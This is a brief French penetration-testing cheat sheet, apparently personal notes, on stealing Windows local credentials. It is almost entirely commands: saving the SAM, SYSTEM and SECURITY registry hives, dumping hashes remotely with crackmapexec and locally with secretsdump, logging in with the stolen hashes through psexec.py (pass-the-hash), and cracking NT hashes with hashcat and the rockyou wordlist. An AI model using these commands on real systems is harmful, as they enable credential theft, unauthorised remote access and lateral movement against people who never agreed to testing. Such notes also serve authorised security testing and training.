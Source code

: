 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Localement
### Récupération de la SAM
```
reg save hklm\sam sam.save
reg save hklm\system system.save
reg save hklm\security security.save
```

## A distance 

```
crackmapexec smb $TARGET_IP --local-auth -u $LOCAL_USER -p $LOCAL_PASS --sam
```

## Extraction des Hashs

### SAM
```
secretdump.py local -sam sam.save -security security.save -system system.save LOCAL
```


## Utilisation des Hash LM:NT
### Accès distant
``` shell 
psexec.py Administratur@$TARGET_IP -hashes xxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxx
# ou
psexec.py Administratur@$TARGET_IP -hashes :xxxxxxxxxxxxxxxxxxxxxxx
# on peut également utiliser wmiexec.py et smbexec.py ou encore evil-winrm
```

### Cassage des hashs avec hashcat

```
cat hash.txt
64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
...

sudo hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```
